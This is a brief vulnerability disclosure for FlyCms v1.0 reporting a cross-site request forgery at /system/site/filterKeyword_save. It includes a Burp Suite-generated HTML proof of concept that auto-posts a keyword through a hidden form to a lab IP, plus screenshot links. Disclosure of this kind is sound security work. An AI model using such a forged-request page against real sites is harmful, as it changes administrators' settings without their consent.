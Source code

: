 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/site/filterKeyword_save

![1](https://github.com/mafangqian/cms/assets/84766362/f6ec4fcf-837b-4b5b-a199-486b67f1aab3)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/site/filterKeyword_save" method="POST">
      <input type="hidden" name="keyword" value="csss" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```


![2](https://github.com/mafangqian/cms/assets/84766362/165b1ace-94cd-4901-81b5-e12e909d5398)


Successed
![3](https://github.com/mafangqian/cms/assets/84766362/8c11af14-a305-4879-8911-5e56c277137d)
